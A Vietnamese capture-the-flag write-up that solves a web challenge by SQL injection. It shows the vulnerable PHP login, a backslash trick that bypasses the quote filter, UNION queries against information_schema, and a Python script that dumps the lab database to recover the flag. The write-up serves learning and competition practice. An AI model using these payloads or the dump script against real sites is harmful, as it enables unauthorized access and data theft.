 # [Chung Kết] Web: Cửa hàng đồ chơi Quận 4

## Cái gì đếy?

![chall](./images/chall.png)

Đây là một bài SQLi khá là cơ bản nhưng mà không hiểu vì lí do gì mình lại stuck khá lâu ở bài này. Có lẽ mình đã già .__.

## Phân tếch

Khi mình vừa bấm vào link thì sẽ có một cái trang login spot ra trông như thế lày:

![login](./images/login.png)

Các bạn để ý thì sẽ thấy có một cái button `Xem mã nguồn` sẽ dẫn mình đến source code của phần login.

```php
<?php
    if (isset($_GET['source'])) { 
        highlight_file(__FILE__); 
        die(); 
    }
    include("config.php");
    session_start();
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        try {
            // Vậy chắc an toàn rồi!
            if (preg_match("/'/", $_POST['username']) || preg_match("/'/", $_POST['password']))
                die("Hack detected 😵😵😵");

            $sql = "select username from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
            $sth = $conn->query($sql);
            $sth->setFetchMode(PDO::FETCH_ASSOC);
            if ($sth->rowCount() > 0){
                $row = $sth->fetch();
                {
                    $_SESSION['username'] = $row['username'];
                    die(header("location: shopping.php"));
                }
            }
            else {
                $message = "Sai tên và mật khẩu rồi 😅";
            }
        } catch(PDOException $e) {
            $message =  "Ôi không, có gì đó sai sai. Hãy thử lại vào lúc khác nha 😅";
        }
    }
    if (isset($_SESSION['username']))
        die(header("location: shopping.php"));
?> 

```

Ở đây, mình đetéct được một đoạn vunerable code:

```php
if (preg_match("/'/", $_POST['username']) || preg_match("/'/", $_POST['password']))
                die("Hack detected 😵😵😵");

$sql = "select username from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
```

Trông có vẻ như `preg_match` chỉ filter dấu `'` thôi nên mọi chuyện khá ez xD.

## Solútion

### Bypass login fỏm

Quay lại đoạn check login phía bên trên, khi mình thử nhập tên là `admin` và mật khẩu là `12345` thì đoạn query sẽ trông như sau:

```php
select username from users where username='admin' and password='12345'
```

Vì không thể dùng `'` như bình thường được nên mình dùng dấu `\` để escape luôn dấu `'` ngay phần `username`, sau khi nhập tên là `\` thì đoạn query sẽ trở thành như thế này:

```php
select username from users where username='\' and password='12345'
```

Bạn thấy chứ? Đoạn mật khẩu `12345` mình vừa nhập đã chui ra khỏi string. Từ đó mình có đoạn injection như sau:

```sql
username: \
password: or username="admin"#
```

Bùm, không có flag :<

![shop](./images/shop.jpg)

### Blind SQL Injection

Vì không thấy flag nên mình đoán là flag sẽ là password của `admin` hoặc là username/password của một user nào đó. Dự là như vậy nên mình dùng `Blind SQLi` để bruteforce password.

> Chả hiểu sao khúc này mình lại đi brutefỏce trong khi có thể dùng `union select` =))

Sau một hồi loay hoay thì mình nhận được password của `admin` chính là `admin` và vẫn chưa thấy flag. Tuyệt :>

![dog](./images/dog.jpg)

### Diging into database

Có vẻ như dòng chữ `Xin chào admin.` ở trên kia là nơi trả về kết quả của đoạn query hồi nãy. Thử query `version()` thì mình nhận được:

```sql
union select version()#
```

![version](./images/version.jpg)

`8.0.26`? Là version của MySQL nên mình có thể dùng hàm `group_concat` được.
Mình quyết định tìm kiếm trong các table khác và nhận được một đống table có vẻ như không liên quan.

```sql
union select group_concat(table_name) from information_schema.tables#
```

![tables](./images/tables.jpg)

Mình không biết dùng `sqlmap` nên chỉ thử được một vài table. Nhiều quá nên mình viết hẳn một cái script để dump luôn database. Sau khi dump xong mình vẫn không tìm thấy flag ?? :) ??

![cat](./images/cat.jpg)

Và mình rơi vào betak.

### Database nào cơ????

![hint](./images/hint.png)

Sau khi nhận được hint từ anh `nyancat` thì mình mới nhớ ra trong một hệ quản trị CSDL có nhiều database khác nhau và mình vừa tìm flag ở trong một cái database lạ hoắc .__. *sosadboiz...*

Oce let's try it.

```sql
union select database()#
```

Seem good ;3

![db](./images/db.jpg)

Mình dùng luôn đoạn script lúc nãy để dump cái `myDB` này, mình đã quá mệt mỏi rồi :<<

```python
import requests
import json
import re

URL = 'http://shop.kid.cyberjutsu-lab.tech/login.php'

def query(cmd):
    r = requests.post(URL, data={
        'username': '\\',
        'password': cmd + '#'
    })
    try:
        return re.findall('Xin chào (.*).\\r', r.text)[0].split(',')
    except:
        return None

def list2dict(a):
    if a:
        return { x: None for x in a }
    else:
        return None

db = list2dict(query('union select group_concat(table_name) from information_schema.tables where table_schema=database()'))

for table_name in db.keys():
    print('querying:', table_name)
    columns = list2dict(query(f'union select group_concat(column_name) from information_schema.columns where table_name="{table_name}"'))
    db[table_name] = columns

    for column_name in columns:
        print(f'querying: {table_name}.{column_name}')
        values = query(f'union select group_concat({column_name}) from {table_name}')
        db[table_name][column_name] = values

with open('db.json', 'w') as w:
    w.write(json.dumps(db, indent=4, sort_keys=True))
```

Mở file `db.json` lên và mình tìm thấy flag... ***p r 0 v j p***

```json
{
    "authors": {
        "added": null,
        "birthdate": null,
        "email": null,
        "first_name": null,
        "id": null,
        "last_name": null
    },
    "flag_304ad593": {
        "flag_3e53dc": [
            "CTF{pleAs3_doNt_r3invent_th3_whe3L}"
        ]
    },
```

Flag:

```
CTF{pleAs3_doNt_r3invent_th3_whe3L}
```

That's end. Hy vọng bạn thích bài viết này của mình <3
